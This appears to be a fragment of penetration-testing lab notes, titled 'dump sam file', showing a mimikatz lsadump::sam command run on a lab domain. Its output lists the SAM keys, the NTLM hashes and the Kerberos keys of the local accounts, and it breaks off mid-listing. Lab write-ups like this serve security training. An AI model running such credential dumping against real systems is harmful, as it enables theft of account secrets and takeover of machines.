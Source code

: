 

dump sam file

```bash
mimikatz # lsadump::sam
Domain : ATTACKDEFENSE
SysKey : 377af0de68bdc918d22c57a263d38326
Local SID : S-1-5-21-3688751335-3073641799-161370460

SAMKey : 858f5bda5c99e45094a6a1387241a33d

RID  : 000001f4 (500)
User : Administrator
  Hash NTLM: e3c61a68f1b89ee6c8ba9507378dc88d

Supplemental Credentials:
* Primary:NTLM-Strong-NTOWF *
    Random Value : ed1f5e64aad3727f03522bbddc080d77

* Primary:Kerberos-Newer-Keys *
    Default Salt : ATTACKDEFENSEAdministrator
    Default Iterations : 4096
    Credentials
      aes256_hmac       (4096) : f566d48c0c62f88d997e9e56b52eed1696aead09df3100982bcfc5920655da5d
      aes128_hmac       (4096) : bf0ca9e206e82ce481c818070bef0855
      des_cbc_md5       (4096) : 6d570d08df8979fe
    OldCredentials
      aes256_hmac       (4096) : 69d101a02f3f4648bf9875f10c1cd268d3f500c3253ab862222a9e1bb3740247
      aes128_hmac       (4096) : 3c3fd899f7f004ed44e9e48f868a5ddc
      des_cbc_md5       (4096) : 9b808fb9e0cbb3b5
    OlderCredentials
      aes256_hmac       (4096) : 4cbbe8ad8482ca76952b08cd9103ba91af35c9d8b21a3d49c332e072618a9fa9
      aes128_hmac       (4096) : b18addd75f8a2b106b262c7b5e517623
      des_cbc_md5       (4096) : 7fe0c2a15eb32fcd

* Packages *
    NTLM-Strong-NTOWF

* Primary:Kerberos *
    Default Salt : ATTACKDEFENSEAdministrator
    Credentials
      des_cbc_md5       : 6d570d08df8979fe
    OldCredentials
      des_cbc_md5       : 9b808fb9e0cbb3b5


RID  : 000001f5 (501)
User : Guest

RID  : 000001f7 (503)
User : DefaultAccount

RID  : 000001f8 (504)
User : WDAGUtilityAccount
  Hash NTLM: 58f8e0214224aebc2c5f82fb7cb47ca1

Supplemental Credentials:
* Primary:NTLM-Strong-NTOWF *
    Random Value : a1528cd40d99e5dfa9fa0809af998696

* Primary:Kerberos-Newer-Keys *
    Default Salt : WDAGUtilityAccount
    Default Iterations : 4096
    Credentials
```